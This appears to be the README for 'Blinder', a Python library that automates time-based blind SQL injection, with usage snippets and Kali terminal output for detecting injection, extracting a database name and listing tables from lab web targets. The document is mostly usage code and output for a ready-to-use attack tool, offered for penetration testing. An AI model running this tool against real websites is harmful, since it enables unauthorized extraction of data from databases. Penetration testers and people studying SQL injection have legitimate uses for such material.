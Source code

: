 # Blinder

Blidner is a small python library to automate time-based blind SQL injection by using a pre defined queries as a functions to automate a rapid PoC development.

# Installation

You can install Blinder using the following command:

`pip install blinder`

Or by downloading the source and importing it manually to your project.

# Usage

To use blinder you need to import `Blinder` module then start using the main functions of Blinder.

You can use Blinder "with the current version" to do the following:

* Check for time based injection.
* Get database name.
* Get tables names.

**You can check for injection in a URL using the following code:**

```
#!/usr/bin/python

import Blinder

blind = Blinder.blinder(
    "http://sqli-lab/sql_injection/index.php?search=3",
    sleep=1
 )

print blind.check_injection()

```

The execution result will be:

```
root@kali:~/Desktop# python check.py 
True
root@kali:~/Desktop# 
```
**You can Get database name using the following code:**

```
#!/usr/bin/python

import Blinder

blind = Blinder.blinder(
    "http://sqli-lab/sql_injection/index.php?search=3",
    sleep=1
 )

print "Database name is : %s " % blind.get_database()

```

And the results will be:

```
root@kali:~/Desktop# python get-database.py 
Database name is : db1 
root@kali:~/Desktop# 
```

**To get tables names you can use the following code:**

```
#!/usr/bin/python

import Blinder

blind = Blinder.blinder(
    "http://192.168.1.18/sql_injection/index.php?search=3",
    sleep=1
 )

tables = blind.get_tables()

for table in tables:
    print table

```
And the results will be:

```
root@kali:~/Desktop# python get-tables.py 
blogs
notes
root@kali:~/Desktop# 
```
